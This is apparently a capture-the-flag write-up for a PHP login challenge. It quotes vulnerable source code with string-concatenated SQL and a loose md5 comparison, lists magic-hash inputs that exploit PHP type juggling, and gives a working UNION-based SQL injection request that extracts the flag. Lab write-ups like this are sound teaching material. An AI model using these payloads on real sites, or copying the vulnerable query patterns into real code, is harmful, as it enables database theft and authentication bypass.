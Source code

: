 # Too-many-admins

## Description 

Too many admins spoil the broth. Can you login as the right admin and get the flag?

## Writeup
On launching the challenge we land at the homepage with two fields username and password, a classic authentication bypass

![image](https://github.com/user-attachments/assets/71a378b8-daa9-4678-88b3-c2cfbe5277b4)


On reading the source provided we can easily see to dump the details of all users we need to visit http://localhost:8000/?user=all
```php
    // Fetch the 'user' parameter from the query string
    $userParam = $_GET['user'];

    // Use prepared statement to prevent SQL injection
    if($userParam){
    if($userParam !=  "all"){
    $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    }else{
    $query = "SELECT username, password, bio FROM users "
    }
```
![image](https://github.com/user-attachments/assets/119b3b64-2c1b-4ec7-aeb5-c16e3eb0a20e)


On looking through dump.sql we find that we need to login as some user and his bio will contain the flag.

![image](https://github.com/user-attachments/assets/7793ebfd-88fa-4e05-819d-c80eecbdaebc)

## Key Issues and Vulnerabilities
1. SQL Injection:

- The code is vulnerable to SQL injection because the ```username``` is directly included in the SQL query without proper sanitization or use of prepared statements.

2. Weak Password Hashing:

- The ```md5``` function is used for hashing, which is not considered secure for password hashing. Additionally, the specific hash value ```0e0776470569150041331763470558650263116470594705``` can lead to a type juggling vulnerability in PHP.

3. Type Juggling:

- In PHP, the comparison ```==``` can lead to type juggling, where a string starting with ```0e``` is considered as a float (scientific notation). This can be exploited, especially with the ```md5``` function, as certain inputs could produce a hash that starts with ```0e```, resulting in a false-positive match.

## Exploitation
To exploit this, you'll need to find a string that, when multiplied by 676 (which is 2 * 2 * 13 * 13), produces a 0e hash.

- Several strings are known to produce 0e-style md5 hashes. For example:
  - ```"240610708"``` → ```md5("240610708")``` → ```"0e462097431906509019562988736854"```.
  - ```"QNKCDZO"``` → ```md5("QNKCDZO")``` → ```"0e830400451993494058024219903391"```.
```php
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $username = $_POST['username'];
        $password = $_POST['password'];
        
        if (empty($username) || empty($password)) {
            echo "Please fill in both fields.";
        } else {
    $query = "SELECT username, password, bio FROM users WHERE username = '$username' ";
    $result = $conn->query($query);
    $mysupersecurehash = md5(2*2*13*13*((int)$password));
    $i =0 ;
    while ($row = mysqli_fetch_row($result)) {
        if((int)$row[1] == $mysupersecurehash && $mysupersecurehash == 0e0776470569150041331763470558650263116470594705){
        echo "<h1>You win</h1> \n";
    echo "Did you really? \n";
        echo "<tr><td>" .$i. " </td><td> "  . $row[0] . " </td><td> " . $row[1] . " </td><td> " . $row[2] . " </td></tr>";
        $i++;
    }else{
        echo "<h1>Wrong password</h1>";
    }
}
        }
    }
```
On reading about php comparison operations we find the <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md">typejuggling</a> vulnerability. Now we need to find the right admin which can be easily found by bruteforcing the cred for those admins whose password hash begins with "0e"

```bash
flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}
```
## Other Solution (SQLi)
So, obvious SQL injection in the php code and since we have dump.sql, we know what columns are in what tables. Thus, below is a SQLi payload to extract the flag, since we know it is in the bio.

```
GET /?user=' UNION SELECT 1,bio,3 FROM users WHERE bio LIKE "%Flag{%";-- -
```

The response is: -

```
S.no	Username	Password(MD5 hashes)
0	1	flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}
```

